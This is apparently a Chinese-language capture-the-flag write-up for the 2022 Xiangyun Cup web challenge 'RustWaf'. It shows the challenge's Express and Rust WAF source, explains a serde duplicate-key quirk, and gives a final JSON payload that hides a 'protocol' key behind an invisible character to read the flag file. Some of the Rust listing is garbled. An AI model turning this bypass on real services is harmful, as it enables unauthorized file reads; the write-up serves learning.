# 2022祥云杯线上

# web

## RustWaf

访问/src拿到js源码

```jsx
const express = require('express'); 
const app = express(); 
const bodyParser = require("body-parser") 
const fs = require("fs") 

app.use(bodyParser.text({type: '*/*'})); 
const { execFileSync } = require('child_process'); 

app.post('/readfile', function (req, res) { 
    let body = req.body.toString(); 
    let file_to_read = "app.js"; 
    const file = execFileSync('/app/rust-waf', [body], { encoding: 'utf-8' }).trim(); 
    try { 
        file_to_read = JSON.parse(file) 
    } catch (e){ 
        file_to_read = file 
    } 
    let data = fs.readFileSync(file_to_read); 
    res.send(data.toString());
}); 

app.get('/', function (req, res) {
        res.send('see `/src`'); 
    }); 

app.get('/src', function (req, res) { 
    var data = fs.readFileSync('app.js'); 
    res.send(data.toString()); 
}); 

app.listen(3000, function () { 
    console.log('start listening on port 3000'); 
});
```

大概就是存在一个/readfile的路由，可以用来读取文件但是有一个rust写的waf需要绕过

在/readfile路由传递一个json数据就能拿到源码，emmm这里不理解拿到源码才理解

这里需要看一下rust的serde框架

[Rust 序列化反序列框架 Serde :: Rectcircle Blog](https://www.rectcircle.cn/posts/rust-serde/)

代码中规定了传参的参数，参数如果漏传的话会报TypeError，那么接下来的绕过也就是在这个json传参上做文章

![Untitled](2022祥云杯线上%20attachments/Untitled.png)

```rust
use std::env; 
use serde::{Deserialize, Serialize}; 
use serde_json::Value; 
static BLACK_PROPERTY: &str = "protocol"; 

#[derive(Debug, Serialize, Deserialize)] 

struct File{ 
    #[serde(default = "default_protocol")] 
    pub protocol: String, 
    pub href: String, 
    pub origin: String, 
    pub pathname: String,
    pub hostname:String 
} 

pub fn default_protocol() -> String { 
    "http".to_string() 
} 
//protocol is default value,can't be customized 

pub fn waf(body: &str) -> String { 
    if body.to_lowercase().contains("flag") || body.to_lowercase().contains("proc"){ 
        return String::from("./main.rs"); 
    } 
    if let Ok(json_body) = serde_json::from_str::(body) {  
        if let Some(json_body_obj) = json_body.as_object() { 
            if json_body_obj.keys().any(|key| key == BLACK_PROPERTY) { 
                return String::from("./main.rs"); 
            } 
        } 
//not contains protocol,check 
        if struct is File if let Ok(file) = serde_json::from_str::(body) { 
            return serde_json::to_string(&file).unwrap_or(String::from("./main.rs")); 
        } 
    } else{ //body not json 
        return String::from(body); 
    } 
    return String::from("./main.rs"); 
} 

fn main() { 
    let args: Vec = env::args().collect(); 
    println!("{}", waf(&args[1])); 
}
```

首先需要绕过对flag的过滤，可直接urlencode

![Untitled](2022祥云杯线上%20attachments/Untitled%201.png)

![Untitled](2022祥云杯线上%20attachments/Untitled%202.png)

![Untitled](2022祥云杯线上%20attachments/Untitled%203.png)

那么这部分的代码大概意思就是获取参数的key值，然后去遍历所有的key看是否存在key为protocol，有的话就返回代码

这里的绕过应该是涉及到了一些特性，keys()不识别不可见字符，因此后面的带有不可见字符的protocol就会将原有的正常key覆盖，等到传到any()哪里的时候带有不可见字符的key又不等于protocol了如此绕过

最后的payload

{"hostname":"","pathname":"/f%6cag","protocol":"file:","origin":"wumonster","href":"wumonster","prot\udfffocol":"wumonster"}

![Untitled](2022祥云杯线上%20attachments/Untitled%204.png)